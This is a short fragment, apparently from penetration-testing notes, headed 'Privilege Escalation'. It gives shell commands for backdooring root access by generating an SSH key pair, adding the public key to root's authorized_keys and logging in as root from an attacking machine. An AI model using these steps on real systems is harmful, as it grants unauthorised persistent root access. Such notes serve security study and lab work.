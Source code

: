 ## Privilege Escalation

### If you can modify files as root

#### Try to add ssh public key to root/.ssh/authorized_keys
```
# Generate ssh key pair
ssh-keygen -o

# Copy the public key
cat /root/.ssh/id_rsa.pub

# Paste it into your root/.ssh/authorized_keys file (create if necessary)
# Then try and access through ssh from attacking machine
ssh root@targetip
```
